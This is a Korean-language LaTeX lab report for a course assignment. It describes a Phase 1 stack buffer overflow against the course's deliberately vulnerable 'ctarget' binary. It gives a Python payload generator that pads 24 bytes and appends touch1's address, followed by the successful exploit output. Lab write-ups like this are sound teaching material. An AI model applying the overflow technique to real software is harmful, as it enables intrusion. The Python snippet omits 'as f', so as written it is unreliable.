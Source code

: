 \documentclass{scrartcl}
\title{CSED211: Lab 3 (due Nov. 6)}
\author{손량(20220323)}
\date{Last compiled on: \today, \currenttime}
\begin{document}
\maketitle

\section{개요}
Buffer overflow 취약점이 있는 프로그램을 code injection, return oriented
programming 등의 방법으로 공격해 본다.

\section{공격 방법}
\subsection{Phase 1}
Phase 1을 해결하기 위해서는 \texttt{getbuf} 함수의 buffer overflow 취약점을
활용하여 \texttt{touch1} 함수를 실행해야 한다. \texttt{getbuf} 함수는 스택에
\texttt{0x18}, 즉 24바이트를 할당하기 때문에 24바이트의 문자열 뒤에
\texttt{touch1} 함수의 주소인 \texttt{0x40184d}를 byte order에 맞게 붙여주면
공격을 위한 input string을 생성할 수 있다. 이를 위해서는 다음과 같은 파이썬
코드를 사용하고,
\begin{lstlisting}[language=Python]
import struct

with open("phase1_payload.bin", "wb"):
    f.write(b"A" * 0x18)
    f.write(struct.pack("<q", 0x40184d))
\end{lstlisting}
여기서 \texttt{struct} 모듈은 little endian byte order에 맞게 주소값을 입력하기
위해 사용하였다. 코드의 \texttt{"<q"}는 8바이트 값을 little endian에 맞게
packing 하라는 의미이다. 생성된 \texttt{phase1\_payload.bin} 파일을 입력으로
주어 실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase1_payload.bin
Cookie: 0x3e52dff5
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
